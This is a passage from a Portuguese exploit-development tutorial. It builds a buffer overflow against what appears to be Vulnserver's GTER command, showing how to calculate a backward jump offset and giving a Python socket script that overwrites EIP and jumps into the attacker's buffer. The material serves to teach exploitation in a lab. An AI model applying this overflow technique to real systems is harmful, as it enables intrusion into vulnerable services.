 Ele nos deu a distância e965ffffff, porém temos que ter cuidado, pois ele está comparando com o 00d8f9c7, mas sabemos que nosso primeiro “C” está em 00d8f9c8, portanto temos que subtrair 1 byte da distância, resultando em e964ffffff.

Agora sabemos a distância do salto, então, independente do endereço que os buffers possam cair, podemos encontrar nosso endereço de destino.

Antes de testar outra abordagem para calcular o salto, vamos testar em nosso script.

Vamos adicionar nosso salto no script logo após o salto para o EIP.

xplgter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# payload a ser enviado
offset = 147

payload = b"GTER /.:/" # funcao inicial
payload += b"A" * offset # buffer
payload += b"\xd3\x11\x50\x62" # endereco de retorno
payload += b"\xe9\x64\xff\xff\xff" # salta para o primeiro buffer
payload += b"C" * (309 - 147 - 4 - 5) # segundo buffer

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado!")
```

### Entendendo o payload
```python
payload = b"GTER /.:/" # funcao inicial
payload += b"A" * offset # buffer
payload += b"\xd3\x11\x50\x62" # endereco de retorno
payload += b"\xe9\x64\xff\xff\xff" # salta para o primeiro buffer
payload += b"C" * (309 - 147 - 4 - 5) # segundo buffer
```
1. Ele vai enviar o comando inicial “GTER /.:/”;
2. Ele vai enviar nosso primeiro buffer com 147 “A”;
3. Ele vai enviar para o EIP o endereço de retorno para nosso ESP;
4. Aqui ele envia o salto para cair novamente no inicio do buffer de “A”;
5. Agora ele envia o restante dos “C” onde 309 é o offset para buffer overflow, -4 para descontar os 4 bytes do endereço de retorno e -5 bytes do salto.
